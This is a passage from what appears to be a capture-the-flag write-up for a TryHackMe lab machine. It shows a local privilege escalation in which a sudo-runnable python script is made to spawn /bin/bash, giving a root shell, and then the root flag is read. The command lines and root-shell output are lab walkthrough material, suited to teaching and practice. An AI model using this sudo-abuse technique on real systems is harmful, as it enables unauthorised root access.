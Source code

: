 So if we run the script with sudo and execute `/bin/bash`, we'll get a root shell:

~~~
condor@mnemonic:~$ sudo /usr/bin/python3 /bin/examplecode.py


	------------information systems script beta--------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	----------------@author villwocki------------------

Running...



	#Network Connections   [1]

	#Show İfconfig         [2]

	#Show ip route         [3]

	#Show Os-release       [4]

    #Root Shell Spawn      [5]           

    #Print date            [6]

	#Exit                  [0]

	

Select: 0
are you sure you want to quit ? yes : .

Running..../bin/bash
root@mnemonic:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Now we can head to `/root` and read the root flag:

~~~
root@mnemonic:~# cd /root
root@mnemonic:/root# ls
f2.txt  root.txt
root@mnemonic:/root# cat root.txt 
THM{congratulationsyoumadeithashme}
~~~

We got the flag, but the string in the middle should be an MD5 hash. Let's encrypt it then:
